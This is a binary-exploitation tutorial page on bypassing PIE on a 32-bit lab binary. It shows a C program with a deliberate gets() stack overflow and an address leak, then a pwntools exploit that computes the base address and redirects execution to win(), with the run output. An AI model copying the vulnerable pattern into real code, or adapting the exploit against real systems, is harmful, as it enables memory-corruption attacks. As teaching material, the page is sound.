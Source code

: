 ```yaml
---
description: Exploiting PIE with a given leak
---
```


# PIE Bypass with Given Leak

## The Source

{% file src="../../../.gitbook/assets/pie-32.zip" caption="PIE - 32-bit" %}

```c
#include <stdio.h>

int main() {
    vuln();

    return 0;
}

void vuln() {
    char buffer[20];

    printf("Main Function is at: %lx\n", main);

    gets(buffer);
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Pretty simple - we print the address of `main`, which we can read and calculate the base address from. Then, using this, we can calculate the address of `win()` itself.

## Analysis

Let's just run the script to make sure it's the right one :D

```text
$ ./vuln-32 
Main Function is at: 0x5655d1b9
```

Yup, and as we expected, it prints the location of `main`.

## Exploitation

First, let's set up the script. We create an `ELF` object, which becomes very useful later on, and start the process.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we want to take in the `main` function location. To do this we can simply receive up until it \(and do nothing with that\) and then read it.

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{% hint style="info" %}
Since we received the entire line except for the address, only the address will come up with `p.recvline()`.
{% endhint %}

Now we'll use the `ELF` object we created earlier and set its base address. The `sym` dictionary returns the offsets of the functions from binary base until the base address is set, after which it returns the absolute address in memory.

```python
elf.address = main - elf.sym['main']
```

In this case, `elf.sym['main']` will return `0x11b9`; if we ran it again, it would return `0x11b9` + the base address. So, essentially, we're subtracting the offset of `main` from the address we leaked to get the base of the binary.

Now we know the base we can just call `win()`.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
By this point, I assume you know how to find the padding length and other stuff we've been mentioning for a while, so I won't be showing you every step of that.
{% endhint %}

And does it work?

```text
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 4617
PIE bypassed! Great job :D
```

Awesome!

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

## Summary

From the leak address of `main`, we were able to calculate the base address of the binary. From this we could then calculate the address of `win` and call it.

And one thing I would like to point out is how _simple_ this exploit is. Look - it's 10 lines of code, at least half of which is scaffolding and setup.

## 64-bit

Try this for yourself first, then feel free to check the solution. Same source, same challenge.

{% file src="../../../.gitbook/assets/pie-64.zip" caption="PIE - 64-bit" %}

